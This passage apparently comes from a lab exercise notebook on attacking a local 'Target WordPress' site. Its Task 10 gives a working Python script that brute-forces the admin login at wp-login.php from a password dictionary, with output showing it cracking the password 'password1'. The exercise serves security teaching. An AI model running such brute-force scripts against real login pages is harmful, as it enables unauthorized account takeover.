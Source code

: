     wp_attempt_focus();
    if(typeof wpOnload=='function')wpOnload();
       </script>
       <p id="backtoblog">
        <a href="/">
         ← Back to Target WordPress
        </a>
       </p>
      </div>
      <div class="clear">
      </div>
     </body>
    </html>
    


**Answer:** No. If you look closely at the response content, you will observe the login page. So, you have to get correct username and password to access admin area.

## Attack

**Task 10:** Bruteforce the wordpress login for user "admin". Use the given dictionary.


```python
import requests

password_dict="password_dictionary.txt"

# Loading the password dictionary and Striping \n
lines = [line.rstrip('\n') for line in open(password_dict)]

for password in lines:
    print("Trying with password: ",password)
    resp = requests.post('http://localhost/wp-login.php', data = {'log':'admin', 'pwd': password })
    if "ERROR" not in resp.text:
        print("Login successful with password: ",password)
        break

print(resp.text)
```

    Trying with password:  123456
    Trying with password:  12345
    Trying with password:  1234
    Trying with password:  1234567
    Trying with password:  dragon
    Trying with password:  baseball
    Trying with password:  abc123
    Trying with password:  letmein
    Trying with password:  696969
    Trying with password:  shadow
    Trying with password:  michael
    Trying with password:  654321
    Trying with password:  password
    Trying with password:  superman
    Trying with password:  password1
    Login successful with password:  password1
    <!DOCTYPE html>
    <!--[if IE 8]>
    <html xmlns="http://www.w3.org/1999/xhtml" class="ie8 wp-toolbar"  lang="en-US">
    <![endif]-->
    <!--[if !(IE 8) ]><!-->
    <html xmlns="http://www.w3.org/1999/xhtml" class="wp-toolbar"  lang="en-US">
    <!--<![endif]-->
    <head>